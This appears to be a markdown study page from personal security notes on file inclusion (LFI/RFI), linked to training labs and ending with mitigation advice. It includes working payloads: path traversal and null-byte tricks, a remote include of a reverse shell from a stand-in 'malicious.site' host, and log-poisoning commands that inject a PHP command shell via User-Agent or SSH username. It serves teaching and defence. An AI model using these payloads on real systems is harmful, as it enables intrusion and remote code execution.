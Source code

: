 # File inclusion

[![fileinc](../../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)
[![fileinclusion](../../../../../cybersecurity/_badges/htb/fileinclusion.svg)](https://academy.hackthebox.com/course/preview/file-inclusion)
[![directory_traversal](../../../../_badges/rootme/web_server/directory_traversal.svg)](https://www.root-me.org/en/Challenges/Web-Server/Directory-traversal)

<div class="row row-cols-lg-2"><div>

Files inclusion refers to websites that are importing a file based or using the user input. This involves using the user input to:

* 🐚 determine configuration files to include
* 🌍 determine language files to include
* ...

If the input is not filtered/validated, a hacker may include arbitrary content using [Path traversal](traversal.md) such as an uploaded script.
</div><div>

There are two categories of file inclusion

* **Local File Inclusion (LFI)** 🏠: include a local file
* **Remote File Inclusion (RFI)** ✈️: include a remote file

Template engines are more likely to contain LFI/RFI. They can lead to code/data exposure, which may further compromise the company.

⚠️ For RFI, always try a local URL that is likely not blocked by a firewall first <small>(ex: `http://127.0.0.1:80/index.php`)</small>. Alternatively, you may try `ftp://` or `\\IP\share\` on Windows.
</div></div>

<hr class="sep-both">

## Basic Methodology

<div class="row row-cols-lg-2"><div>

Assuming you found some vectors that might lead to a LFI, such as:

* 📚 Headers
* 📄 Forms
* 🍪 Cookies
* ...

You might try to play around with the value to see if it works.
</div><div>

Assuming we have `page=about`.

* Test Path `./about`
* Test Null-Byte `./about.php%00`
* Test a Path `../<folder name>/about`
* Test Architecture-specific payloads, such as `php://filter`
* Test Remote Inclusion
* ...
</div></div>

<hr class="sep-both">

## PHP File Inclusion

[![php_filters](../../../../_badges/rootme/web_server/php_filters.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-Filters)
[![php_assert](../../../../_badges/rootme/web_server/php_assert.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-assert)

<div class="row row-cols-lg-2"><div>

The website `http://vulnerable.site/?lang=FR` is doing an include using `$_GET["lang"]` as seen below.

```php!
include "lang/$_GET[lang].php"
```

We can use [Path traversal](traversal.md) or [PHP Wrappers](files/wrappers.md) to include a malicious file, such as one we uploaded using another attack.

**Local File Inclusion (LFI)** 🏠: inject a local file

```php!
// ex: we uploaded a reverse shell (a fake PNG)
// as our avatar (avatar.png), then we could use:
include "lang/../uploads/avatar.png"
```

**Remote File Inclusion (RFI)** ✈️: inject a remote file

```php!
// 🛑 allow_url_fopen MUST BE SET TO true
include "http://malicious.site/reverse_shell.php"
```
</div><div>

**Additional notes**

* The **null byte `%00`** could be used in **PHP < 5.3.4** to ignore trailing extensions such as `.png` below:

```php!
include "xxx.png%00.php" // include xxx.png
```

* The PHP string truncation could be used in **PHP < 5.3.0** as strings longer than 4096 were truncated.

* If they are using `assert()` to filter characters such as `..`, we may be able to [inject code in it](https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-via-phps-assert).
</div></div>

<hr class="sep-both">

## Log Poisoning

<div class="row row-cols-lg-2"><div>

If the vulnerable function can execute code, we may not have to upload a webshell, we can inject PHP code in the logs and read the logs to execute the injected code.

Note that logs must be readable by the web application. Nginx logs are readable by anyone, but not Apache logs.

```ps
# Ex: load /var/log/apache2/access.log / ...
$ curl [...] -A "<?php system(\$_GET['cmd']); ?>"
```

👉 `/proc/self/environ` or `/proc/self/fd/<0-50>` will contains the User-Agent too, but they may not be readable either.
</div><div>

We can alternatively poison ssh logs <small>(username)</small>, ftp logs, etc.

```ps
$ ssh '<?php /*code*/ ?>'@IP # Ex: /var/log/auth.log
```

#### PHP Sessions

If the session contains a value that we control, we can inject PHP code in this value, then we can read the session file.

* `/var/lib/php/sessions/sess_<session id>`
* `C:\Windows\Temp\sess_<session id>`
</div></div>

<hr class="sep-both">

## File Inclusion Mitigation 🛡️

<div class="row row-cols-lg-2"><div>

* 🪲 Do not use *user-controlled input to include a file, whether the input is from the database or from a form.

* 🫧 Use whitelists <small>(switch-case value to file, maps, etc.)</small>, and avoid directly using user-controlled input

* 🕸️ If allowing paths, refer to path traversal mitigations
</div><div>

* 🔒 Use docker or a similar technology to isolate the application OR lock web applications to their web root directory. In PHP, we can set the `open_basedir` variable in the PHP INI file. Beware that configuration files will still be accessible.

* 🔫 Use additional verifications such as using `realpath` in path to ensure the files are within the allowed directories

* 📚 Use additional tools such as a WAF, etc.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* `/var/log/sshd.log`
* `/var/log/vsftpd.log`
</div><div>

* [LFISuite](https://github.com/D35m0nd142/LFISuite) <small>(1.5k ⭐, 2018 🪦)</small>
* [LFiFreak](https://github.com/OsandaMalith/LFiFreak) <small>(0.2k ⭐, 2015 🪦)</small>
* [liffy](https://github.com/mzfr/liffy) <small>(0.7k ⭐)</small>
</div></div>